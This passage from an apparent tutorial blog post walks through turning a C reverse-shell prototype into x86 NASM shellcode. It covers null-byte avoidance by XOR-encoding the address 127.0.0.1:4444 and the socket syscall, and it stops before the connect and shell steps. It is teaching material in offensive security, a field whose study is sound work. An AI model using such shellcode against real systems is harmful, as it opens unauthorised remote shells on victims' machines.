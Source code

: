  * The `sin_addr` property of the `sockaddr_in` is set to an IP address that is parsed using `inet_aton`
 * `connect` is used, rather than `bind` and `accept`
 * The file descriptor used with `dup2` is the socket file descriptor

When creating the `sockaddr_in` struct, `inet_aton` is used to simplify creating the 32 bit representation of the IP address, rather than determining the values of each individual octet.

The usage of `connect` is self explanatory and is equivalent to that of the previously used `bind`.

Other than these two points, a detailed explanation of how the rest of the prototype works can be found in the previous post on [Creating a Bind Shell TCP Shellcode](/2018-09-04-creating-a-bind-shell-tcp-shellcode).

Converting the Prototype to Shellcode
-------------------------------------
As in the bind shell example, the shellcode will start by setting the frame pointer and clearing the immediately required registers:

```nasm
; set the frame pointer
mov   ebp, esp

; clear required registers
xor   eax, eax
xor   ecx, ecx
xor   edx, edx
```

Next, the `sockaddr_in` struct is created and pushed on to the stack.

At this point, there is a slight issue to overcome, that is that IP addresses can and frequently do contain zeros. As a result of this, it's necessary to XOR the value to ensure it does not contain any in the final shellcode.

In this case, as the IP address being used is `127.0.0.1`, the value `0xffffffff` is pushed into $eax, the XORd value of `127.0.0.1` is pushed into $ebx in reverse order (`0xfeffff80`) and then the value of $ebx is XORd with $eax and then pushed onto the stack:

```nasm
; create sockaddr_in struct
push  eax
push  eax             ; [$esp]: 8 bytes of padding
mov   eax, 0xffffffff
mov   ebx, 0xfeffff80
xor   ebx, eax
push  ebx             ; [$esp]: 127.0.0.1
push  word 0x5c11     ; [$esp]: 4444
push  word 0x02       ; [$esp]: AF_INET
```

Once the struct is on the stack, the socket can be created. As the file descriptor created by the call to `socket` will be needed in the $ebx register for both the `connect` and `dup2` calls that follow, it is moved directly there after the call is invoked:

```nasm
; call socket(domain, type, protocol)
xor   eax, eax
xor   ebx, ebx
mov   ax, 0x167       ; $eax: 0x167 / 359
mov   bl, 0x02        ; $ebx: AF_INET
mov   cl, 0x01        ; $ecx: SOCK_STREAM
int   0x80
mov   ebx, eax        ; $ebx: socket file descriptor
```
